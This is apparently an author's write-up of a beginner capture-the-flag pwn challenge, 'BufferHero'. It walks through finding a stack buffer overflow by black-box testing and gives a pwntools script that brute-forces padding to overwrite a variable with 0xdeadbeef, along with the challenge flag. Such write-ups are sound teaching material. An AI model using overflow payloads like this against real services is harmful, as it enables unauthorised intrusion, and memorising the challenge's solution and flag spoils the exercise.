 ## Challenge Description

**Category**: Pwn
**Difficulty**: Easy
**Connection**: nc 139.59.162.57 6562

BufferHero is a beginner-friendly buffer overflow challenge. Your mission is to become a true superhero by demonstrating your power level and saving the city from villains.


I decided to create this challenge as a step up from my other basic buffer overflow challenges (TitanBreacher and SenpaiOverflow). While those challenges required participants to simply input a very long string to trigger a length check, BufferHero requires actually modifying a specific variable on the stack to a specific value.

This challenge introduces the concept of targeted buffer overflows, where precision matters more than just input length. Since I only provided participants with the description and connection details (no source code), they had to discover the vulnerability through dynamic analysis.

## Challenge Approach

When participants connect to the service, they're greeted with:

```
🦸‍♂️ Welcome to Buffer Hero Academy! 🦸‍♀️

🦹 A villain is attacking the city! 🦹
Quick! Enter your superhero name:
```

After entering a normal name like "SuperHacker", they would see:

```
Your hero name is: SuperHacker
😔 Your power level isn't high enough...
Power level: 0x0
```

The first important clue is seeing "Power level: 0x0" - this suggests there's a variable tracking power level, and it's being displayed in hexadecimal format.

Participants should experiment with different inputs:

1. **Testing for buffer overflow**: They should try longer and longer inputs to see if they can affect other variables
2. **Pattern analysis**: By sending pattern strings (like "AAAABBBBCCCC..."), they can determine the exact offset needed

When sending a long enough input, they'd notice the power level value changing:

```
Your hero name is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
😔 Your power level isn't high enough...
Power level: 0x42424242
```

This is the critical insight - the "B" characters (ASCII value 0x42) have overwritten the power level! Since power level is displayed in hex, participants should deduce they need to set it to a specific value.

## Exploitation Approach

Based on black-box testing, participants should determine:

1. The buffer size appears to be 32 bytes for the name
2. There may be some padding or alignment between the buffer and the power level variable
3. They need to set the power level to some special value to become a hero
4. The service seems to be a 32-bit binary (since the power level is 4 bytes)

Through trial and error or educated guessing, they might try:
- Common magic values like `0xdeadbeef` or `0xcafebabe`
- Different padding sizes between the name buffer and the power level variable

For `0xdeadbeef`, they would need to:
- Fill the 32-byte name buffer
- Add some padding bytes (the exact number needs to be determined by experimentation)
- Append the bytes for 0xdeadbeef in little-endian format: \xef\xbe\xad\xde

## Exploit Solution

Without access to the source code, participants would need to develop a solution that tries different padding sizes:

```python
#!/usr/bin/env python3
from pwn import *
import sys

# Connect to the challenge server
HOST = "139.59.162.57"
PORT = 6562

def try_exploit(padding_size):
    conn = remote(HOST, PORT)
    
    # Create the payload with three parts:
    # 1. Fill the name buffer with 'A's
    # 2. Add padding of 'B's between the buffer and target variable
    # 3. Add the target value 0xdeadbeef in little-endian format
    payload = b'A' * 32 + b'B' * padding_size + p32(0xdeadbeef)
    
    # Send the payload when prompted
    conn.recvuntil(b"Enter your superhero name: ")
    conn.sendline(payload)
    
    # Get the response
    response = conn.recvall(timeout=2)
    conn.close()
    
    # Check if we were successful
    if b"power is overwhelming" in response or b"Congratulations" in response:
        print(f"[+] Success with {padding_size} bytes of padding!")
        print(response.decode())
        return True
    return False

# Try different padding sizes
for padding in range(0, 16):
    print(f"[*] Trying with {padding} bytes of padding...")
    if try_exploit(padding):
        break
```

The key insight here is realizing that memory alignment and compiler optimizations can introduce spacing between variables on the stack. In this case, there's padding between the name buffer and the power level variable that must be accounted for.

## Expected Output

When running the correct exploit with the right padding, participants would see:

```
🦸‍♂️ Welcome to Buffer Hero Academy! 🦸‍♀️

🦹 A villain is attacking the city! 🦹
Quick! Enter your superhero name: 

Your hero name is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[padding]
💥 Your power is overwhelming! 💥

🦸 Congratulations, Buffer Hero! 🦸
Here's your flag: CMC{buff3r_h3r0_s4v3d_th3_d4y}
```

## Learning Objectives

I designed this challenge to teach several important concepts:

1. Black-box vulnerability assessment - finding buffer overflows without source code
2. Understanding stack memory layout through experimentation
3. Learning how local variables are stored in relation to each other
4. Introducing the concept of endianness in memory
5. Demonstrating how stack alignment and compiler optimizations affect memory layout
6. Developing an exploit that works across different binary versions

Unlike my previous challenges that just checked input length, this one requires more precision and understanding of how memory works. It bridges the gap between basic string length checks and more advanced exploitation techniques like return-oriented programming.

## Conclusion

BufferHero is intentionally designed to be an incremental step up from basic buffer overflows. By requiring participants to overwrite a specific variable with a specific value, it forces them to understand more about memory layout while still being accessible to beginners.

What makes this challenge particularly educational is the need to experiment with different padding sizes - teaching that real-world exploitation often requires trial and error to account for compiler and architectural differences.

If you were able to solve this challenge, you've demonstrated a solid understanding of basic buffer overflows and are ready to tackle more complex exploitation challenges! 